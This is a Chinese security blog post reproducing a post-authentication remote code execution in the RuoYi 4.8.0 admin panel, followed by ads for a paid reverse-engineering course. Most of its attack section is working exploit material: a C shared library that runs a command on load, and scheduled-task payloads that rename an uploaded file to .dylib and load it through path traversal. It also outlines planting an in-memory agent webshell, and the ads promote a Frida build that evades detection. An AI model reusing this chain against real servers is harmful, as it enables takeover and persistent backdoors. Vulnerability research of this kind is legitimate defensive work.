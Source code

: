 #  若依4.8.0后台rce漏洞复现及内存马利用   
原创 跟着斯叔唠安全  跟着斯叔唠安全   2025-05-20 00:00  
  
免责声明  
：  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
1  
  
Start  
  
    前段时间先知（  
https://xz.aliyun.com/news/17890）上看到有佬发了最新版若依4.8.0的后台rce分析，最近抽空复现了一下。  
  
2  
  
Action  
  
    首先创建一个c文件，用来执行命令  
```
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
__attribute__ ((__constructor__)) void angel (void) {
    // 调用 system 函数打开计算器应用程序
    system("open -a calculator");
}
```  
  
    然后使用gcc进行编译  
```
gcc -arch arm64 -shared -o 1.dylib calc.c
//根据不同的架构修改
```  
  
    然后上传这个1.dylib文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24Ubquo0A2CfyjLjkEYqCaia4cgutZ5kx7PmeKicEISD6a4TrlFW2yjXYXBfYAl0ic3C35qclQa5sYmvsg/640?wx_fmt=png&from=appmsg "")  
  
   然后创建一个计划任务将  
txt格式改成  
dylib格式  
```
ch.qos.logback.core.rolling.helper.RenameUtil.renameByCopying("/Users/mos/Desktop/code/java/RuoYi-4.8.0/upload/upload/2025/05/19/com.ruoyi.quartz.task_20250519214440A001.txt","/Users/mos/Desktop/code/java/RuoYi-4.8.0/upload/upload/2025/05/19/com.ruoyi.quartz.task_20250519214440A001.dylib");
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24Ubquo0A2CfyjLjkEYqCaia4cS64PbK6ncQKqwtTdbQZ722TT7peiceJVhic0vaMOAHvoNuBqa5CAiamcg/640?wx_fmt=png&from=appmsg "")  
  
    执行一次  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24Ubquo0A2CfyjLjkEYqCaia4cTJLCNsxnia85OcC48ptG53zLkpfXmjAozGeia3wRia7BVuWhNicBCknEJg/640?wx_fmt=png&from=appmsg "")  
  
    几乎是瞬间，文件名从txt改成了dylib  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24Ubquo0A2CfyjLjkEYqCaia4cMMIvOCxoLtEAMBrrb5zdXO3S49nQ8YpzEdZ1wjMq0Ir5HkyYyomQtg/640?wx_fmt=png&from=appmsg "")  
  
    最后再将计划任务的代码改成  
```
com.sun.glass.utils.NativeLibLoader.loadLibrary('../../../../../../../../../../../Users/mos/Desktop/code/java/RuoYi-4.8.0/upload/upload/2025/05/19/com.ruoyi.quartz.task_20250519214440A001');
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24Ubquo0A2CfyjLjkEYqCaia4cvNSn31QibibIUxyyf4d6krm6TdojjFToTsGgzZob12DUCeBGM1b1r20A/640?wx_fmt=png&from=appmsg "")  
  
    执行一次，然后就弹出来计算器了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24Ubquo0A2CfyjLjkEYqCaia4cCtKn48vOzaibqia7mTbMGvDSlib8Ll6Y6OOWqmchJ3VybnRelHmMIZwEA/640?wx_fmt=png&from=appmsg "")  
  
    漏洞复现难度倒不是很大，主要就是利用的条件比较苛刻，需要知道文件上传的绝对路径，基本现实中碰到就得靠点狗运成分去猜路径。  
  
  
  
    前面是漏洞复现的步骤，漏洞利用的话，要么是反弹shell，要么就是往里面种内存马写webshell来连接。反弹shell需要目标机器出网，利用条件有限制，种内存马是相对来说更通用些的手段。那么如何种内存马呢？  
  
    回顾一下整个漏洞的过程，其主要是是依靠执行C语言代码来执行命令的，看起来更适合搞agent的内存马。那么思路清晰，只需要将agent马写在C的代码里面，然后当执行这个C语言代码的时候落地agent的jar包，执行agent找到对应的若依pid即可。有了对应的思路，代码实现其实就可以交给AI了。（  
这里面碰到了个坑点，不知道是本地环境原因还是什么，使用jmg生成的agent马死活注入不进去内存马，木的办法只得手写了一个agent马注入，agent马获取方式见文末）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24Ubquo0A2CfyjLjkEYqCaia4cpywPNJg70yKwaKpFdUG31lysJtbvBQohrbUibUf92ID6I171ghR3nlQ/640?wx_fmt=png&from=appmsg "")  
  
    按照前面漏洞复现的逻辑，再走一遍。。。顺利写入内存马  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24Ubquo0A2CfyjLjkEYqCaia4cfypS1GZoCPDGHapwKbbp1S1bHibB2OAccL0xicyIpf0dqJzgHcsN784A/640?wx_fmt=png&from=appmsg "")  
  
  
========================================================  
  
逆向加解密算法，是渗透测试、漏洞挖掘中非常常见的场景。不少安全从业者都栽在了 Web、APP、小程序中的各种加解密逻辑上。要么绕不过去，要么耗时耗力搞不定，web加解密都要定位半天？  
  
  
为了解决这个问题，我们推出了这门课程：  
  
🎯 《加解密逆向技能速成培训》  
  
这是一门定位非常清晰的速成实战课。我们不教你写算法，我们教你如何“用好”算法。实战教学，如何用最高效的方式快速逆向加解密。  
  
  
✅ 课程定价  
  
仅需 99 元，一次性掌握Web/APP/小程序多端逆向技能。  
  
  
🎁 限时赠送内容（非常硬核）  
  
✅ 一年纷传圈子，专人答疑+资料分享  
  
✅ 魔改 Frida，能绕过市面绝大多数 Frida 检测  
  
✅ 小程序 RPC ，助力你打通小程序体系的算法逆向  
  
  
🧠 课程内容简介  
  
📌 加解密插件介绍  
  
快速接入主流插件，加快定位和分析速度  
  
📌 小程序加解密逆向  
  
如何定位加密逻辑  
  
使用 RPC 模块快速调试  
  
处理固定动态 key 的实际思路和案例  
  
📌 Web 加解密逆向  
  
手工 + 工具双路线，一键定位，绝杀加密  
  
搭配 RPC 框架高效完成 JSHook  
  
定位常见 Web 加密套路  
  
📌 APP 加解密逆向  
  
利用“算法自吐”技巧快速获取关键数据  
  
手工配合 RPC 脚本进行有效调试  
  
抓住动态 key + 多态混淆的实际处理技巧  
  
  
💬 课程定位说明  
  
这不是爬虫课程。我们不花大量时间去研究 AES、RSA、SM4等等算法是如何实现的。我们要做的是：  
  
✅ 把这些算法直接利用起来，为渗透服务  
  
✅ 提升调试、hook、定位、利用能力  
  
✅ 实现“实战优先”，“效率为王”，快速赋能  
  
  
📩 报名方式：  
  
添加下方微信  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24Uas6U1icvb8icYp1OrIE2u7V6mNruxrBiaapKt8RxumiaYGCHibbGA5uwU8tstHADxf77CbcjWcibXp4P8A/640?wx_fmt=png "")  
  
  
3  
  
End  
  
🚀 **新圈子上线 | 高质量安全内容持续更新中！**  
  
我最近在纷传上建立了一个全新的安全技术圈子，主要聚焦于 **WEB安全、APP安全、代码审计、漏洞分享**  
 等核心方向。目前圈子刚刚建立，内容还不算多，但会**持续高频更新**  
，只分享真正有价值、有深度的干货文章。  
  
📚 圈子中包含：  
- 高质量原创或精选的安全技术文章  
  
- 公众号历史付费内容免费查看（如：小程序RPC、APP抓包解决方案）  
  
- 一些只在圈子内分享的独家思路和实战经验  
  
文章中涉及的完整思路报告（windows版）及agent马等已上传至纷传圈子中，需要的师傅可以自取哈  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UaQw8cfe5zo87XFXicicayuia9gvdmBnX6lOnSygn4NFJlzqeyxyes0uIYicDwGwh3rbAYicdwYFhK3Ang/640?wx_fmt=png&from=appmsg "")  
  
  
  
  

